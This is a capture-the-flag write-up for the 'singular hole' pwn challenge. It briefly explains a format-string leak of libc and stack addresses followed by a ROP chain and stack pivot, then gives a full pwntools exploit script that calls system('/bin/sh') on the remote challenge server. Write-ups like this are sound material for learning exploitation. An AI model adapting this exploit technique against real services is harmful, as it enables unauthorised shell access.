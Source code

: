 # singular hole

```
surely one singular hole is easier to handle than many holes
nc challenge.secso.cc 9003 
```

Solved by @Rosayxy.

A very basic challenge. You leak the libc address and stack address using the format string, then you write rop chain to stack and use stack pivoting to hijack the control flow to our rop chain.

## exp

```python
from pwn import *
context(log_level = "debug", arch = "amd64", os = "linux")
# p = process("./chal")
p = remote("challenge.secso.cc", 9003)
libc = ELF("./libc.so.6")

p.recvuntil("Please state your name:\n")
p.sendline("%20$p %21$p")
p.recvuntil(">> ")
line = p.recvline().strip()
stack_leak = int(line.split(b" ")[2], 16)
libc_leak = int(line.split(b" ")[3], 16)
log.info("stack_leak: " + hex(stack_leak))
log.info("libc_leak: " + hex(libc_leak))
libc_base = libc_leak - 0x2a1ca
log.info("libc_base: " + hex(libc_base))
binsh = libc_base + next(libc.search(b"/bin/sh"))
system = libc_base + libc.symbols["system"]
pop_rdi = libc_base + 0x0010f75b
ret = pop_rdi + 1
puts_plt  = 0x0401080
p.recvuntil("Please state a fun fact about yourself:\n")
p.sendline(p64(pop_rdi) + p64(binsh) + p64(system))

# 0x7ffd9b35ee80 0x7ffd9b35ed60

p.recvuntil("Where would you like to place your hole?\n")
p.sendline(hex(stack_leak - 0x120))
fake_rbp_addr = stack_leak - 0x120 + 8
p.recvuntil("What would you like to write there?\n")
p.sendline(str(fake_rbp_addr%0x100))

p.interactive()
```

3rd solve: `Congratulations to team jiegec for the 3rd solve on challenge singular hole!`.
